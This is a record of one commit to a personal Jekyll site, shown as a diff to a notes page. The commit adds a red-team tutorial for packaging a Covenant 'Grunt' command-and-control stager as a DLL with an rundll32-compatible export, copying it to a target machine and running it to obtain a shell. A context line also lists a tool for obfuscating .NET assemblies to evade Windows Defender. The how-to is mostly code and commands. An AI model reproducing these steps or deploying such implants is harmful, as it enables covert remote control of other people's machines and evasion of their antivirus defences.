

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 1400 px high, scrolled down 9009 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -496,3 +496,42 @@
 
 
 - [NET-Obfuscate:](https://github.com/BinaryScary/NET-Obfuscate) Obfuscate ECMA CIL (.NET IL) assemblies to evade Windows Defender
+
+
+
+### Covenant DLL Export
+
+From Covenant we can create a Grunt DLL that has an export compatible with rundll32. In Covenant, select the Binary Launcher and Generate a new Grunt. Then click the Code tab and copy the StagerCode.
+
+Open Visual Studio and create a new Class Library (.NET Framework) project. Delete everything in Class1.cs and paste the StagerCode.
+
+- Go to Project > Manage NuGet Packages. Click Browse and search for UnmanagedExports. Install the package by Robert Giesecke.
+
+- Collapse the GruntStager class and add the following Export class underneath.
+
+```cpp
+public class Exports
+{
+  [DllExport("GruntEntry", CallingConvention = CallingConvention.Cdecl)]
+  public static void GruntEntry(IntPtr hwnd,
+  IntPtr hinst,
+  string lpszCmdLine,
+  int nCmdShow)
+  {
+    new GruntStager();
+  }
+}
+
+```
+
+Add using statements for System.Runtime.InteropServices and RGiesecke.DllExport.
+
+Open the Configuration Manager and create a New Solution Platform for x64 (and x86 if you require).
+
+Now build the proect then copy the DLL to the target machine and execute with rundll32 as follow
+
+```sh
+rundll32.exe GruntDll.dll,GruntEntry
+```
+
+Now you should have your shell
````
